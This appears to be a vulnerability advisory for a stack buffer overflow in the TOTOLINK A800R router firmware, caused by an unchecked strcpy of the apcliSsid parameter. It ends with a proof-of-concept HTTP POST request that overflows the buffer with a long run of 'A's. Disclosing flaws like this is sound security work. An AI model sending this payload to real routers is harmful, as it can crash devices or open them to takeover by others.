



# Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** https://www.totolink.net/

**Affected products:** A800R

**Affected firmware version:** V4.1.2cu.5137_B20200730

**Firmware download address:** [https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/166/ids/36.html](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/166/ids/36.html)

# Overview

The TOTOlink A800R router, firmware version V4.1.2cu.5137_B20200730, contains a buffer overflow vulnerability in the `setAppEasyWizardConfig` interface of /lib/cste_modules/app.so. The vulnerability occurs because the `apcliSsid` parameter is not properly validated for length, allowing remote attackers to trigger a buffer overflow, potentially leading to arbitrary code execution or denial of service.

# Vulnerability details

A stack-based buffer overflow vulnerability exists in the `setAppEasyWizardConfig` function. The function retrieves the `apcliSsid` parameter from HTTP requests via `websGetVar` and copies it into a fixed-size stack buffer without proper bounds checking.

Specifically, the destination buffer `v36` is defined as `_DWORD v36[8]`, corresponding to a 32-byte stack buffer. Under certain execution conditions, the following unsafe operation is performed:
```
strcpy((char *)v36, v19);  // v19 = apcliSsid
```
Because `strcpy` does not enforce length validation, an attacker can supply an excessively long `apcliSsid` value to overflow the `v36` buffer. This overflow may overwrite adjacent stack memory, leading to memory corruption, process crashes (denial of service), or potentially arbitrary code execution.

The repeated use of these unchecked operations further increases the attack surface and elevates the overall risk and exploitability of the vulnerability.



# POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Origin: http://192.168.0.1
Referer: http://192.168.0.1/login.asp
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Accept: */*
Content-Length: 369

{
"topicurl":"setting/setAppEasyWizardConfig",
"functionType": "2",
"rootFlag": "2",
"wifildx": "1",
"apcliSsid": AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
}
```

